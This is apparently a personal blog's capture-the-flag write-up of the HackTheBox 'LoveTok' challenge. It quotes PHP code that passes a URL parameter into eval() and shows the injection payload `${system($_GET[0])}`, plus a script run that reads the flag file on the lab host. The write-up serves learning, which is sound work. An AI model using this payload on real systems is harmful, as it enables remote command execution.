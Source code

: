 ```yaml
---
title: "HackTheBox - LoveTok"
description: ""
author: raylex
tags: PHP EVAL CODE-INJECTION
categories: CTF HACKTHEBOX
date: 2024-02-10
---
```

![alt text](/assets/images/HTB-LoveTok.png){: w="700" h="400" }  
The home page displays date and texts, however, clicking the `Nah, that doesn't work for me. Try again!` button directs me to `/?format=r` and the date changes.  
Nothing else stands out, so i'll download the provided source code and begin analysis
## TimeController.php
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
The TimeController class retrieves the `format` parameter from the URL query string `($_GET['format'])` if it exists, otherwise, assigns a default value of `r` to the variable `$format`.  
## TimeModel.php
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
Right off the bat, i can see that the `getTime()` function uses the [PHP eval()](https://www.php.net/manual/en/function.eval.php){:target="_blank"}. This function is very dangerous because it allows execution of string as PHP code.  
## Code Injection
Because user supplied `format` is used in the `eval()` function without proper sanitization, if i pass PHP code eg: `${system($_GET[0])}` as the the `format`, the program should execute it as PHP code and i can use `&` to append parameter `0` (which is the system command i want to execute):
![id-www](/assets/images/HTB-LoveTok-id.png)
I'll write a [python script](https://github.com/r4yl3x/r4yl3x.github.io/blob/main/assets/cft-scipts/HTB-LazyTok-PHP-CodeInjection.py){:target="_blank"} (just because i can) 😄 and retreive the flag.
```shell
./HTB-LazyTok-PHP-CodeInjection.py 94.237.63.93:41900 "cat /flag*"

HTB{wh3n_********************p0pp1ng}
```
Thanks for reading! Happy Hacking!!!